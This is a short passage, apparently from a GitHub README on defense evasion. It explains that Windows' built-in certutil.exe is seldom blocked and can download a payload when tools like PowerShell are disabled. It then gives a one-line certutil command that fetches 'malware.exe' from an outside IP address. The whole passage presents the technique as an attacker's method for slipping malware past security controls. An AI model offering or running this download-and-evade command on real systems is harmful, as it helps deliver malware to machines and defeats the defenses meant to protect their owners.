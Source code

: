 It's pretty handy to use when other tools for downloading files (for example powershell) are disabled.
Since certutil.exe is a built-in windows tool it normally isn't blocked.

You can use Certutil to download your payload with this command :
```
certutil.exe -urlcache -f http://192.168.0.35/malware.exe malware.exe
```
![OIP (9)](https://github.com/0x074b/Defense-Evasion/assets/83349783/f2a8577a-93fe-47f3-9a87-f9670881ca88)
